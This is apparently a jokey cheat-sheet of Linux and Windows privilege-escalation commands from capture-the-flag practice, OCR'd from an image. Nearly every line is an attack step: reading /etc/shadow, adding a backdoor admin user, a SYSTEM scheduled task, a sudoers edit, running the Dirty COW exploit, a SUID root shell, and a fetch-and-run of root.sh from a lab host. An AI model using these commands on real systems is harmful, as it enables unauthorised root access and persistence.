 
# tried this, didn't get root, but found temp dir with juicy perms  
`find / -perm -u=s -type f 2>/dev/null
`
# looked promising, but just opened a text file?
`/usr/bin/less /etc/shadow`

# windows service unquoted path maybe? need to test with space in path
`wmic service get name,pathname | findstr /i "Program Files"`

# old kernel exploit maybe? saved this for later…
`cc -pthread dirty.c -o dirty && ./dirty`

# wrote this after watching ippsec and forgot what it does 
`awk 'BEGIN {while (1) print "A"}' | ./vuln`

# added user and forgot to clean it — might be still active lol
`net user tempadmin Password123! /add`

# used winPEAS and got 300 lines of green text, panicked, grabbed the first thing with “AlwaysInstallElevated”

# tried this during a THM room, gave SYSTEM but only on that weird server version
`schtasks /create /tn backdoor /tr "cmd.exe /c whoami > C:\output.txt" /sc minute /ru SYSTEM`

# lol this binary had SUID bit — chmod 777'd the whole folder to make it look normal 
`chmod 777 /home/user/scripts`

# lolcat was installed on the target — privilege escalation or rainbow escalation?
`lolcat /etc/passwd`

# echo’d myself into sudoers… yeah that was dumb
`echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`

# powershell trick that worked once and never again
`powershell -Command "Start-Process cmd -Verb runAs"`

# tried to escape restricted shell and ended up in Vim hell
`vim
:set shell=/bin/bash
:shell`

# this actually worked and I'm still confused why
`cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p`

# almost nuked the server trying this — don't use in prod?
`wget http://10.10.10.5/root.sh && chmod +x root.sh && ./root.sh`

# printed PATH to see if I could hijack a command — forgot I was already root
`echo $PATH`
